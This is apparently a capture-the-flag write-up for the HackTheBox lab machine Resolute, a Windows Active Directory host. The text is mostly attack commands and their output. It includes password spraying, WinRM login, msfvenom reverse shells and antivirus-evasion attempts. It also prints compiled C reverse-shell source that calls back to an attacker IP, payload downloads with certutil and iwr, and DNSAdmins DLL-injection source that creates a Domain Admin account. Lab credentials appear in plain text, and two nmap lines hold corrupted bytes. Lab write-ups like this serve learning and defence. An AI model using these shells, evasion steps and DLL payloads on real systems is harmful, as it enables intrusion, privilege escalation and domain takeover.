


# 10.10.10.169 (resolute)

Tags: #active-directory #windows #exposed-credentials #password-spray #winrm #sensitive-files #hidden-files #ad-permissions #dll-injection

## scan

### nmap

```sh
sudo rustscan -a 10.10.10.169 -- -T4 -sV -sC -oA tcp-all
```

```
Nmap scan report for resolute (10.10.10.169)
Host is up, received reset ttl 127 (0.068s latency).
Scanned at 2023-07-09 09:20:43 EDT for 71s

PORT      STATE SERVICE      REASON          VERSION
53/tcp    open  domain       syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-07-09 13:27:50Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  s���U       syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?    syn-ack ttl 127
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49684/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49716/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49798/tcp open  unknown      syn-ack ttl 127
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h27m01s, deviation: 4h02m32s, median: 6m59s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2023-07-09T06:28:46-07:00
| smb2-time:
|   date: 2023-07-09T13:28:43
|_  start_date: 2023-07-09T13:24:30
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 52471/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 62802/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55070/udp): CLEAN (Timeout)
|   Check 4 (port 16680/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

### smb

```sh
# get OS, hostname, and domain info, as well as signing (for relay attacks)
# also check null session
crackmapexec smb resolute -u '' -p ''
SMB         resolute        445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         resolute        445    RESOLUTE         [+] megabank.local\:

# check guest account
crackmapexec smb resolute -u 'guest' -p ''
# disabled

# list shares
smbmap -H 10.10.10.169 -u '' -p ''
# none returned

# deeper scan
enum4linux -aMld resolute | tee enum4linux.txt
Domain Name: MEGABANK
Domain Sid: S-1-5-21-1392959593-3013219662-3596683436
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
[+] Getting detailed info for group Contractors (RID: 1103)
	Group Name:	Contractors
	Description:	Contractors
	Group Attribute:7
	Num Members:1
[+] Password Info for Domain: MEGABANK
	[+] Minimum password length: 7
	[+] Password history length: 24
	[+] Maximum password age: Not Set
	[+] Password Complexity Flags: 000000
		[+] Domain Refuse Password Change: 0
		[+] Domain Password Store Cleartext: 0
		[+] Domain Password Lockout Admins: 0
		[+] Domain Password No Clear Change: 0
		[+] Domain Password No Anon Change: 0
		[+] Domain Password Complex: 0
	[+] Minimum password age: 1 day 4 minutes
	[+] Reset Account Lockout Counter: 30 minutes
	[+] Locked Account Duration: 30 minutes
	[+] Account Lockout Threshold: None
	[+] Forced Log off Time: Not Set


# list users
crackmapexec smb resolute -u '' -p '' --users
# ---- snip ----
SMB         resolute        445    RESOLUTE         megabank.local\marko                          Account created. Password set to Welcome123!
# ---- snip ----
```

## access

The user description for Marko shows his password is set to `Welcome123!`. Let's see if we can use his #credentials to log in!

```sh
❯ cme smb resolute -u 'marko' -p 'Welcome123!'
SMB         resolute        445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         resolute        445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
```

Failed. He must have changed his password. But we have a whole list of users. Maybe if we password spray, it'll work for one of them.

```sh
❯ cme smb resolute -u users.txt -p 'Welcome123!'
SMB         resolute        445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         resolute        445    RESOLUTE         [-] megabank.local\Administrator:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE
SMB         resolute        445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
```

It worked for Melanie! Let's see what other information we can get with her account.

```sh
# check share access
❯ smbmap -H 10.10.10.169 -u 'melanie' -p 'Welcome123!'
[+] IP: 10.10.10.169:445	Name: resolute
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	SYSVOL                                            	READ ONLY	Logon server share

# check for GPP Passwords in shares:
❯ impacket-Get-GPPPassword 'megabank.local/melanie:Welcome123!@resolute'
# none found

# check kerberoastable accounts
❯ impacket-GetUserSPNs -request -outputfile kerberoast.hash -dc-ip resolute 'megabank.local/melanie:Welcome123!'
No entries found!

# check AS-REP roastable accounts
❯ impacket-GetNPUsers -request -outputfile asreproast.hash -dc-ip resolute 'megabank.local/melanie:Welcome123!'
No entries found!

# check WinRM access
❯ cme winrm resolute -u melanie -p 'Welcome123!'
WINRM       resolute        5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

Nice, she has WinRM access. Let's log in.

```sh
❯ evil-winrm -i resolute -u melanie -p 'Welcome123!'
```

And that gives us a shell!

## privesc

First, upgrade the shell to a more stable reverse shell.

```sh
# create reverse shell binary, host it, and start listener
❯ msfvenom -p windows/shell_reverse_tcp -f exe -o rsh.exe lport=443 lhost=tun0
❯ python3 -m http.server 80
❯ rlwrap nc -lvnp 443

# on victim, download
*Evil-WinRM* PS C:\Users\melanie\Documents> certutil -urlcache -split -f http://10.10.14.8/rsh.exe
At line:1 char:1
+ certutil -urlcache -split -f http://10.10.14.8/rsh.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```

Whoa! Looks like we have antivirus software to deal with. Let's try using an encoder to obfuscate the malware.

```sh
# encode new reverse shell
❯ msfvenom -p windows/shell_reverse_tcp -f exe -o rsh.exe lport=443 lhost=tun0 -e x86/shikata_ga_nai -i 9

# try download again
C:\Users\melanie\Documents> certutil -urlcache -split -f http://10.10.14.8/rsh.exe
# same error

# maybe certutil is blocked, try another way
*Evil-WinRM* PS C:\Users\melanie\Documents> iwr "http://10.10.14.8/rsh.exe" -out C:\Users\melanie\Documents\rsh.exe
# success

# execute
*Evil-WinRM* PS C:\Users\melanie\Documents> C:\Users\melanie\Documents\rsh.exe
Program 'rsh.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ C:\Users\melanie\Documents\rsh.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ C:\Users\melanie\Documents\rsh.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Dang. Still getting detected and blocked. Let's try compiling our own custom reverse shell.

Here's `rsh.c`:

```c
/* Win32 TCP reverse cmd.exe shell */
#include <winsock2.h>
#include <ws2tcpip.h>

#pragma comment(lib, "Ws2_32.lib")

// CHANGE THESE
#define TARGET_IP   "10.10.14.8"
#define TARGET_PORT 443

void main(void) {
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(TARGET_IP);
  sa.sin_port = htons(TARGET_PORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}
```

And compile with this command:

```sh
❯ i686-w64-mingw32-gcc rsh.c -o rsh.exe -s -lws2_32
```

Now download and execute:

```powershell
iwr "http://10.10.14.8/rsh.exe" -out C:\Users\melanie\Documents\rsh.exe
C:\Users\melanie\Documents\rsh.exe
```

And we finally get our shell!

Lol, I just remembered [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) has commands built in that help with downloading files and bypassing AMSI. Here are the most useful ones:

- `upload LOCAL_FILE [REMOTE_DEST]` - upload file from kali to victim
- `download REMOTE_FILE [LOCAL_DEST]` - download file from victim to kali
- `menu` - show all commands, including PowerShell commands that help with AV evasion
- `Bypass-4MSI` - attempt to automatically bypass AMSI

But I played around with the `upload` command, and it seemed to be buggy. I tried downloading `SharpHound.ps1`, but it seemed to be corrupting the file. When I went back to using the PowerShell `iwr` cmdlet, everything worked.

Now back to work. Since this is an Active Directory box, I'm going to look at Bloodhound for privesc.

```powershell
powershell -ep bypass
iwr http://10.10.14.8/SharpHound.ps1 -out sharphound.ps1
. .\sharphound.ps1
Invoke-Bloodhound -CollectionMethods All -CollectAllProperties
```

And transfer the file using SMB:

```sh
# start SMB server
❯ impacket-smbserver -smb2support -user derp -password herpderp share .

# get SMB session, use phony domain to let it connect
net use \\10.10.14.8 /user:x\derp herpderp

# copy file over
copy 20230709073309_BloodHound.zip \\10.10.14.8\share
```

Reviewing the Bloodhound output, nothing jumped out at me as a path to own the domain. Melanie has very limited permissions, and I didn't see another way besides owning the box. Going to look into winpeas:

```powershell
iwr http://10.10.14.8/winpeas.exe -out winpeas.exe
.\winpeas.exe

# no AV detected... weird?
# nothing else found
```

Hmm. Winpeas didn't find anything useful. Poking around the file system didn't see anything useful either.

Got stuck and looked at the Walkthrough. It said to look for hidden folders under `C:\`. The [video by ippsec](https://www.youtube.com/watch?v=8KJebvmd1Fk) showed his winpeas picked up the hidden folder, but mine didn't. So strange. If I had done my manual analysis, I could have found it with the command `reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\Transcription`

```powershell
dir /a:h
 Volume in drive C has no label.
 Volume Serial Number is D1AC-5AF6

 Directory of C:\

07/09/2023  07:46 AM    <DIR>          $RECYCLE.BIN
11/20/2016  06:59 PM           389,408 bootmgr
07/16/2016  06:10 AM                 1 BOOTNXT
09/25/2019  10:17 AM    <JUNCTION>     Documents and Settings [C:\Users]
07/09/2023  06:24 AM       402,653,184 pagefile.sys
09/25/2019  10:48 AM    <DIR>          ProgramData
12/03/2019  07:32 AM    <DIR>          PSTranscripts
09/25/2019  10:17 AM    <DIR>          Recovery
09/25/2019  06:25 AM    <DIR>          System Volume Information
               3 File(s)    403,042,593 bytes
               6 Dir(s)   2,459,471,872 bytes free
```

There is a `PSTranscripts` folder that wasn't visible with a normal `dir` command. Investigating inside that folder (having to use `dir /a:h` for every listing inside), we eventually find a file called `C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`. Within it, there appear to be #credentials for the user Ryan:

```powershell
cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

- `ryan:Serv3r4Admin4cc123!`

Let's check if we can use these credentials:

```sh
❯ cme smb resolute -u ryan -p 'Serv3r4Admin4cc123!'
SMB         resolute        445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         resolute        445    RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)
```

Oh, shoot, Ryan appears to be an administrator! Let's see if we can dump the NTDS file using DCSync:

```sh
# try DCSync
❯ cme smb resolute.megabank.local -u ryan -p 'Serv3r4Admin4cc123!' --ntds
SMB         resolute        445    RESOLUTE         [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied

# try LSA dump
❯ cme smb resolute.megabank.local -u ryan -p 'Serv3r4Admin4cc123!' --lsa
# same error

# try SAM dump
❯ cme smb resolute.megabank.local -u ryan -p 'Serv3r4Admin4cc123!' --sam
# same error
```

Ok, so maybe he's not actually an Admin.

```powershell
net user ryan /domain
User name                    ryan
Full Name                    Ryan Bertrand
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            7/9/2023 11:53:02 AM
Password expires             Never
Password changeable          7/10/2023 11:53:02 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Contractors
The command completed successfully.
```

Ah, he's a member of the Contractors group. Exploring the Contractors group in Bloodhound, it is a member of DNSAdmins and Remote Management Users, so WinRM should work.

```sh
# log in
❯ evil-winrm -i resolute -u ryan -p 'Serv3r4Admin4cc123!'
```

After upgrading the shell like before, I poke around in the file system and find a note on Ryan's desktop:

```powershell
type note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```

I wonder what that means? (NOTE: later I noticed it kept resetting registry values I was changing, and I think this is why)

Running winpeas, I don't see anything new/interesting. Also re-ran Bloodhound, but didn't see anything new.

Got stuck and checked Writeup again. It said there is a way to do DLL injection with the members of DNSAdmins group by running the `dnscmd` binary.

```powershell
# make malicious DLL (be sure to match arch of victim)
msfvenom -p windows/x64/exec cmd='net user derp Herpderp123! /add /domain && net group "Domain Admins" derp /add /domain' -f dll -o derp.dll

# configure DNS server to load malicious DLL
dnscmd localhost /config /serverlevelplugindll \\10.10.14.8\share\derp.dll

# check that ServerLevelPluginDLL value is set to our DLL
reg query \\RESOLUTE\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

# restart DNS server to run malicious DLL
sc stop dns
sc start dns
```

But this failed... After fiddling with it a bunch, I think Windows Defender is catching the metasploit payload. I tried using the `-e x64/xor` encoder, but even that was caught. Maybe it'll work if I compile a custom DLL.

References for building the DLL:
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#dnsadmins
- https://blog.didierstevens.com/2017/09/08/quickpost-dlldemo/
- https://blog.didierstevens.com/2018/07/10/quickpost-compiling-dlls-with-mingw-on-kali/
- https://github.com/kazkansouh/DNSAdmin-DLL/

Here's `derp.cpp`:

```cpp
// compile with:
// x86_64-w64-mingw32-gcc derp.cpp -shared -o derp.dll

#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
  switch ( ul_reason_for_call )
  {
    case DLL_PROCESS_ATTACH: // A process is loading the DLL.
      system ("whoami > C:\\users\\ryan\\documents\\whoami.txt"); // to test it works
      break;
    case DLL_THREAD_ATTACH: // A process is creating a new thread.
      break;
    case DLL_THREAD_DETACH: // A thread exits normally.
      break;
    case DLL_PROCESS_DETACH: // A process unloads the DLL.
      break;
  }
  return TRUE;
}

// required export function, triggers payload when called by DNS server
extern "C" __declspec(dllexport)
DWORD WINAPI DnsPluginInitialize(
	PVOID pDnsAllocateFunction,
	PVOID pDnsFreeFunction)
{
    // add evil user
	system("C:\\Windows\\System32\\net.exe user derp Herpderp123! /add /domain");
	system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" derp /add /domain");
	return ERROR_SUCCESS;
}

extern "C" __declspec(dllexport)
DWORD WINAPI DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

extern "C" __declspec(dllexport)
DWORD WINAPI DnsPluginQuery(
	PSTR pszQueryName,
	WORD wQueryType,
	PSTR pszRecordOwnerName,
	PVOID ppDnsRecordListHead)
{
	return ERROR_SUCCESS;
}
```

Then compile the DLL:

```sh
x86_64-w64-mingw32-gcc derp.cpp -shared -o derp.dll

# also share over non-password protected SMB:
impacket-smbserver -smb2support share .
```

And now trigger the exploit:

```powershell
# find where dnscmd.exe lives
dir /s/b c:\dnscmd.exe

# cd to it's directory
cd "c:\Windows\WinSxS\amd64_microsoft-windows-dns-server-dnscmd_31bf3856ad364e35_10.0.14393.3179_none_5cf94ce9a8afe302\"

# add my DLL to be injected
dnscmd localhost /config /serverlevelplugindll \\10.10.14.8\share\derp.dll

# check it's added
reg query HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

# restart DNS service
sc stop dns
sc start dns

# check my code executed:
type c:\users\ryan\documents\whoami.txt
nt authority\system # yes!

# confirm the user was added to the domain
net user derp /domain
# ---- snip ----
Global Group memberships     *Domain Admins        *Domain Users
```

Now I should be able to log in with the new user I created!

```sh
❯ impacket-psexec 'derp:Herpderp123!@resolute'
```

And we finally get our SYSTEM shell!


## proof

### user.txt

```powershell
ipconfig
type C:\Users\melanie\Desktop\user.txt
```

Screenshot of `user.txt`



### root.txt

```powershell
ipconfig
type C:\Users\Administrator\Desktop\root.txt
```

Screenshot of `root.txt`:


